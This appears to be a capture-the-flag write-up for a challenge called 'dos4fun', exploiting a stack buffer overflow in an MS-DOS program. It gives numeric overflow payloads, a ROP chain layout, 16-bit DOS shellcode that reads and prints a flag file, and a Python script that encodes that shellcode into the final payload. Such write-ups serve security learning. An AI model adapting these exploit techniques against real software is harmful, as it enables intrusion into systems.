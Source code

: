 # dos4fun

Okay. This one is really fucking hard and it took a lot of time to see the bug.

[Add part about loading symbols with idapython cause ida sucks at parsing dos symbols]

After some basic reversing, you can easily see that the first step is to enter `"capturetheflag"`. Easy.

Now, after a bit of fuzzing, I see that the input of the numbers 1 to 25 crashes the program.

After (not that) few hours of dos debugging, I found the problem: the file `"keys"` is opened to write in mode `"w"`, and when I write `'\n'` to it, its translated to `"\r\n"`. The file is then xored to death with `'\xff'` (after being opened as `"rb+"` - important!), destroying those `CRLF`s, which means the next time I open the file (for reading in `"r"`) mode, we dont get them squeezed into one neat `'\n'`.

When the file is read into the `0x32` bytes limited stack buffer, we get control of `ip`. Victory?

Not quite. Problem: I have no idea how to write `ms-dos` shellcode. Solution: read a fuck-ton of old-ass documentation.


## Attempt 1 - Test
Payload #1 (test): 1 1 1 1 1 1 1 1 1 1 1 1 1 1 1 1 1 1 1 1 1 1 2570 2570 64042

Calls the `printf("how did you get here...")`. Works. 

## Attempts 2 and 3 - Jump to stack shellcode
Payload #2 (faults): 1 1 1 1 1 1 1 1 1 1 1 1 1 1 1 1 1 1 1 1 1 1 2570 2570 127

Payload #3: 65351 17844 91 56822 1 1 1 1 1 1 1 1 1 1 1 1 1 1 37020 27522 37278 65435 2570 2570 127

```assembly
    mov ax, 4B00h (B8 00 4B) 
    mov dx, FFA4 (BA A4 FF)
    int 21h (CD 21)
```

Fails - `cs` fucks me.

## Attempt 4 - ROP

Problem: The overflow is not large enough.

Flow: `__open()` -> `__read()` -> `__write()`.

We have: `pop` 3 times gadget in `__fgetc()`

Stack layout:

* address of `__open()`
* address of of `pop`*2 gadget
* argument1 for `__open()` - `name`
* argument2 for `__open()` - `mode`
* address of `__read()`
* address of `pop`*3 gadget
* file_handle for `__read()`
* argument2 for `__read()`
* argument3 for `__read()`
* address of `__write()`
* nothing ?
* argument1 for `__write()`
* argument2 for `__write()`
* argument3 for `__write()`


## Attempt 5 - Jump to shellcode with real mode addressing
real address to jump to:
ds:0ae6 == 0xa826 == cs:0x3b86

file name - "flag.txt"

```assembly
    ; open the file
    ; ah - int (0x3d - open)
    ; al - mode (0 - read)
    ; dx - filename

    ; B8 00 3D
    ; BA 08 0b
    ; CD 21

    mov ax, 0x3d00
    mov dx, 0xb08
    int 0x21

    ; read from the file
    ; ah - int (0x3f - read)
    ; bx - handle
    ; cx - amount
    ; dx - buffer
    
    ; 89 C3
    ; B9 80 00
    ; BA 56 06
    ; B4 3F
    ; CD 21

    mov bx, ax
    mov cx, 0x80
    mov dx, 0x0656
    mov ah, 0x3f
    int 0x21

    ; write to output
    ; ah - int (0x40 - write)
    ; bx - handle
    ; cx - amount
    ; dx - buffer

    ; B4 40
    ; BB 02 00
    ; B9 80 00
    ; BA 56 06
    ; CD 21

    mov ah, 0x40
    mov bx, 2
    mov cx, 0x80
    mov dx, 0x0656
    int 0x21

    ; total length: 33 bytes
```

```python
import struct

shellcode = b"\xb8\x00\x3d\xba\x08\x0b\xcd\x21\x89\xc3\xb9\x80\x00\xba\x56\x06\xb4\x3f\xcd\x21\xb4\x40\xbb\x02\x00\xb9\x80\x00\xba\x56\x06\xcd\x21"
flag_file = b"flag\x00"

def encode(b):
    chunks = [b[i:i+2].ljust(2, b'\x00') for i in range(0, len(b), 2)]
    return [0xffff ^ struct.unpack('<H', c)[0] for c in chunks]

payload = (encode(shellcode) + encode(flag_file))
print(len(payload))
payload.extend(1 for _ in range(22 - len(payload)))
payload.extend([0x0a0a, 0x0a0a] + encode(b'\x86\x3b'))
assert len(payload) == 25
```

Victory!

